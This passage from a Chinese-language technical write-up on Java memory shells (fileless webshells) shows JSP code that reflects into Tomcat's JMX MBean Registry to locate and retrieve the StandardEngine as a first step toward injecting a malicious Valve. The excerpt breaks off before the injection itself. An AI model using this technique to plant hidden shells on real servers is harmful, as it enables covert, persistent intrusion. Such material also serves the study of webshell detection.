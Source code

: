 ![Registry](Java应用内存马/Registry.png)

根据上面所说的原理，我们可以拿到StandardContext、StandardEngine，随后向其写入内存马

`TomcatMBeanValve.jsp`

```java
        Registry registry = (Registry) getFieldValue("org.apache.tomcat.util.modeler.Registry", "registry", null);
//    Method getMBeanServer = getMethod("org.apache.tomcat.util.modeler.Registry",
//            "getMBeanServer", null);
//    Object jmxMBeanServer = getMBeanServer.invoke(registry, null);
    MBeanServer jmxMBeanServer = registry.getMBeanServer();

    Object mbsInterceptor = getFieldValue("com.sun.jmx.mbeanserver.JmxMBeanServer", "mbsInterceptor",
            jmxMBeanServer);

    Object repository =  getFieldValue("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor", "repository",
            mbsInterceptor);

    Method query = getMethod("com.sun.jmx.mbeanserver.Repository", "query", ObjectName.class, QueryExp.class);

    /*
    ObjectName 的过滤用法可以参考以下案例
    null, "", "*:*"  : 表示不过滤，包含所有
    "Catalina:*" 表示域为Catalina的MBean，
    "Catalina:type=Valve,*" 表示域为Catalina且其中键名type的值为Valve，且可以存在其他键值对
     */
    ObjectName objectName = new ObjectName("*:type=Valve,name=StandardEngineValve,*");
    Set<NamedObject> namedObjects = (Set<NamedObject>) query.invoke(repository, objectName, null);

    for (NamedObject object:namedObjects) {
        DynamicMBean dynamicMBean = object.getObject();
        Object resource = getFieldValue("org.apache.tomcat.util.modeler.BaseModelMBean", "resource",
                dynamicMBean);

        //Object standardEngine = field.get(resource);
        StandardEngine standardEngine = (StandardEngine) getFieldValue("org.apache.catalina.valves.ValveBase",
                "container",resource);
```